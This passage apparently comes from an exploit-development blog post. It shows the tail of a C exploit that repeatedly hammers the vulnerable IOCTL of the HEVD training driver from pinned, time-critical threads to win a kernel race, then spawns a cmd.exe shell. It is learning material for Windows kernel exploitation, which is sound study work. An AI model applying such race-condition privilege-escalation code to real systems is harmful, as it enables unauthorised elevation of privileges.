 ```c
    printf("[+] Starting the race, this may take some time...\n");
    
    // this thread will try to win the race
    HANDLE tChangeStruct = CreateThread(NULL,
        NULL, ChangeStruct, NULL, CREATE_SUSPENDED, NULL);

    
    // make the thread critical and run on CPU0
    SetThreadPriority(tChangeStruct, THREAD_PRIORITY_TIME_CRITICAL);
    SetThreadAffinityMask(tChangeStruct, 0);
    ResumeThread(tChangeStruct);
    
    DWORD cpuIndex = 1;

    // this thread continuously calls the vulnerable hevd IOCTL
    while(!raceWon)
    {
        // make the thread critical and run on CPU0
        HANDLE tIOCTL = CreateThread(NULL,
            NULL, SendIOCTL, NULL, CREATE_SUSPENDED, NULL);
        SetThreadPriority(tIOCTL, THREAD_PRIORITY_TIME_CRITICAL);
        SetThreadAffinityMask(tIOCTL, cpuIndex);
        
        ResumeThread(tIOCTL);
        
        cpuIndex++;
        if (cpuIndex >= sysInfo.dwNumberOfProcessors)
            cpuIndex = 1;
    }

    PrintTime(FALSE);
    printf("[+] Enjoy your shell...\n\n");
    system("cmd.exe");

    return 0;
}
```

Byeeeeeeee!

[Home](https://plackyhacker.github.io)
